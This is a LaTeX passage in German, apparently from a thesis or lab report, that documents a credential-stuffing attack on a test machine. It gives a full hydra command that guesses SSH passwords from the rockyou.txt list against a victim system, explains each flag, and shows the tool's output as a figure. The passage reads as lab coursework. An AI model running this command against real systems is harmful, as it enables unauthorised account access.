\begin{figure}[H]
   \centering
   \includegraphics[width=1\textwidth]{assets/Stuffing.jpg}
   \caption{\textit{\gls{stuffing}}\\Quelle: Eigene Quelle und \citep{Nguyen_stuffing}}
   \centering
\end{figure}

\gls{stuffing} wurde mit folgendem Kommando durchgeführt \citep{kali_hydra}:
{
\begin{Verbatim}[frame=single]
   hydra -l [Benutzername] -P rockyou.txt [Opfersystem] ssh -V -t 4

   # Erklärung
   -l: Spezifikation des Benutzernamens, den wir angreifen wollen
   -P: Auswahl der Datei mit bekannten Passwörtern
   ssh: Auswahl der Anwendung, die wir angreifen wollen
   -V: Ausführliche Ausgabe über Versuche, Fehler und Erfolg
   -t 4: Anzahl von gleichzeitigen Verbindungen
\end{Verbatim}
}

Das folgende Bild zeigt einen Teil der Ausgabe von \gls{hydra} während der Ausführung von \gls{stuffing} gegen das Opfersystem1:
\begin{figure}[H]
   \centering
   \includegraphics[width=1\textwidth]{assets/stuffing_kali.png}
   \caption{\textit{\gls{stuffing}} gegen Opfersystem1\\Quelle: Eigene Quelle und \citep{Nguyen_stuffing}}
   \centering
\end{figure}


